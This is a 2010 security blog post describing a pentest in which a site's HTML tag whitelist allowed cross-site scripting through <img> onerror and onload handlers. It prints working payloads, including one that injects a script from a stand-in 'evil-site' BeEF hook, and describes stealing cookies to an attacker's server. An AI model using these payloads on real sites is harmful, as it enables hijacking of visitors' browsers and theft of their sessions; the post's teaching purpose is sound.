 ```yaml
---
id: 590
title: 'Exotic XSS: The HTML Image Tag'
date: '2010-04-06T13:45:54-05:00'
author: mtgarden
layout: post
guid: http://www.skullsecurity.org/blog/?p=590
permalink: "/2010/exotic-xss-the-html-image-tag"
categories:
- hacking
comments_id: '109638350087514606'

---
```


There are the usual XSS tests.  And then there are the fun ones.  This is a story about a more exotic approach to testing XSS....

I was testing a company that had passed all XSS tests from their pentester.  I found that they allowed users to write HTML tags.  Of course they didn't permit &lt;script&gt; tags or &lt;iframe&gt; tags.  (Well, they did allow those, but that was an oops - no server side filtering.)  This company had whitelisted a variety of "safe" tags for use by clients.

That's boring, right?  Heh, thanks to Ron, I had a way to abuse their whitelist.  (I've since found this in Web Application Hackers Handbook, but I seem to have overlooked it at the time I read it.)  Three HTML 4 tags in particular allow javascript to be run from one of the elements and these are: &lt;img&gt;, &lt;object&gt;, and &lt;style&gt;.
<!--more-->
You are really unlikely to see &lt;object&gt; and &lt;style&gt; tags permitted, but &lt;img&gt; tags are a bit more common.  Note: since my work on this site, I've seen RSnake's <a title="page" href="http://ha.ckers.org/xss.html" target="_blank">page</a> and other pages that talk about using &lt;img src="alert('XSS')"&gt;.  That was nice in the past, but none of my current version browsers will execute that.  (Makes me wonder if the whole tracking image thing from emails of yesteryear still works, but that's a rabbit trail.  If you know, post a comment.)  Still, just because I can't source the javascript, doesn't mean I can't execute javascript....  We'll use different HTML 4 elements.

Now, in my scenario, I decided to input &lt;img src="blah.jpg" onerror="alert('XSS')"/&gt; and reloaded the page.  BINGO! I got a popup box.  This also works and has the advantage of a working image: &lt;img src="realimage.png" onload="alert('XSS')"/&gt;.

That's cool.  It's really easy to check that off on your list and say "vulnerable to XSS."  But, can you do anything besides popping boxes?  Doing something would be useful.  I had a question about all this, "will these elements support more than an alert box or is this a useless novelty?"  More tests were in order.

So, then we could replace alert() with document.write() and write the cookie to our server. This swipes cookies and that's better than a popup.  But why stop there?

Why not create a &lt;script&gt; on the page itself?  What's that you say?  &lt;script&gt; isn't on the whitelist?  So, your point?  If your browser creates the &lt;script&gt; locally, it can't be filtered, now can it?

Thanks to Mak (@mak_kolybabi) for giving me some of the tips I needed to get this going in the correct direction.

How about we try this:

&lt;img onload="var s = document.createElement('script'); s.src='http://evil-site/beef/hook/beefmagic.js.php';document.getElementsByTagName('head')[0].appendChild(s);" src="real_image.jpg" /&gt;

We have a image that triggers the onload element.  Now we tell the browser to create a script element.  You may not be able to write &lt;script&gt;, but you are able to write the word "script."  The createElement function tells the browser to create the &lt;script&gt;&lt;/script&gt;.  It's local to the client and the server has no idea.  :-D

Then we give the source element (what else would you use but <a title="BeEF" href="http://www.bindshell.net" target="_blank">BeEF</a>?) and then we place our new element into the page.  Viola! You've just turned a simple &lt;img&gt; tag into stored XSS....

I have noticed that using onload="local_function()," IE8 and FF3.6 have "issues."  Not sure what it is quite yet.

I spent a few moments looking around to see if I could locate websites that allow you to use HTML tags.  From a cursory perspective, Slashdot is safe, so is Digg, and most forums are now using BB Code.  So, how useful is this?  I'd wager it's probably a last resort. If you chained attacks you could potentially use it.  Suppose you bypassed the front line of defense (<a title="like so" href="http://www.skullsecurity.org/blog/?p=560" target="_blank">like so</a>) in a manner that allowed you to write tags, but ran into some sort of whitelist filtering on the server preventing &lt;script&gt; tags.  Now you have a way to create script tags while evading the filter.

We're not done yet....

Now, you might think that all of this is trivial and not very important.  I mean seriously, who allows users to write tags at all?  Let's look forward for a moment.  HTML5 is coming.  According to this<a title="site" href="http://simon.html5.org/html5-elements" target="_blank"> site</a> (and I have to think that they would know), we find this beautiful bit of information: all event handlers must be supported by all elements, or something like that.  And there are a bunch of new event handlers.

In other words, not only do we have access to onload/onerror in every element, we get lots more....  Stored XSS will be everywhere for years.  All these wannabe web guys who implement the cool new whizbang HTML5 as soon as it ships, will be running huge risks unless they carefully filter out event handlers.  (At least they need to prevent users from implementing event handlers.)  We've seen how well this has worked in the past, so my hopes for reasonably secure implementation are exactly nonexistent.

And if you have a site that you want to allow users to write tags, try switching to BB Code.  It's safer.  Well, in 10 minutes of testing I didn't see how to bypass it as it doesn't support anything.  :-D

Currently, I am developing a page that will test a browser's support of HTML 5 action events.  If you have suggestions or tips, send them my way.  I'm currently muddling through my coding.

Oh and just think about what would happen if someone accidentally on purpose managed to rewrite the &lt;img&gt; element on www.digg.com or www.google.com.  Would anyone ever notice?  How long would it take to find it?  Seriously, looking for a compromise, who'd look at the official logo for the infection?  Enjoy your nightmares people.

Cheers.
